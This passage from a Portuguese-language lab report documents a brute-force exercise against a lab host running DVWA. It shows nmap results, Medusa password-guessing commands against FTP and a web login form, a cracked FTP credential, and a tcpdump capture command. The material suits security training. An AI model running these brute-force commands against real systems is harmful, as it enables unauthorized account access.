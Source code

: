 **Trecho relevante do resultado (resumo):**

```
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.6p1
80/tcp   open  http        Apache httpd 2.4.29
139/tcp  open  netbios-ssn Samba smbd 3.x
445/tcp  open  microsoft-ds Samba smbd 3.x
```

(arquivo completo: `reports/nmap-full-172.23.3.201.txt`)

---

## 4. Ataques realizados com Medusa

Antes de executar Medusa, criei pastas e arquivos de wordlist e reports:

```bash
mkdir -p ~/project-bruteforce/{scripts,wordlists,reports,images}
# small-words já criado em ~/project-bruteforce/wordlists/small-words.txt
```

### 4.1 Ataque FTP (porta 21)

Comando usado (usuário conhecido `testuser`):

```bash
medusa -h 172.23.3.201 -u testuser -P ~/project-bruteforce/wordlists/small-words.txt -M ftp -t 8 | tee ~/project-bruteforce/reports/medusa-ftp-172.23.3.201.txt
```

**Saída registrada (exemplo do report):**

```
[+] 172.23.3.201:21 FTP: testuser:welcome - Login successful
```

> Resultado: **senha encontrada** para `testuser` — `welcome` (registro em `reports/medusa-ftp-172.23.3.201.txt`).

Também capturei o tráfego FTP durante o teste:

```bash
sudo tcpdump -i eth0 host 172.23.3.201 and port 21 -w ~/project-bruteforce/reports/ftp-session-172.23.3.201.pcap
```

### 4.2 Ataque Web (form-based) — DVWA em `http://172.23.3.201/dvwa`

Comando Medusa usando `http_form` (campo `username` e `password`, sucesso detectado por string `Welcome`):

```bash
medusa -h 172.23.3.201 -u admin -P ~/project-bruteforce/wordlists/small-words.txt -M http_form \
-m "path:/dvwa/login.php,postfields:username=^USER^&password=^PASS^,success:Welcome" -t 6 \
| tee ~/project-bruteforce/reports/medusa-web-172.23.3.201.txt
```

